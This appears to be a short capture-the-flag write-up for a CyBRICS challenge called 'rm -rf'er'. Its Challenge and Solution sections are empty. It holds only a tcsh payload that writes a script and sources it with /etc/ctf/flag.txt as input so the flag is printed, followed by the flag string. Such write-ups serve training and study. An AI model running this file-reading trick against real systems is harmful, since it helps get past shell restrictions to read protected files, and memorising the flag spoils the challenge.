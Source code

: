 # rm -rf'er

## Challenge

## Solution

## Payload

```sh
echo "set line=("`echo '$'`"<)" > /a.txt; echo "echo "`echo '$'`"line" >> /a.txt; source /a.txt < /etc/ctf/flag.txt
```

## Flag

`cybrics{TCSHizzl3_Ma_N1zzl3}`

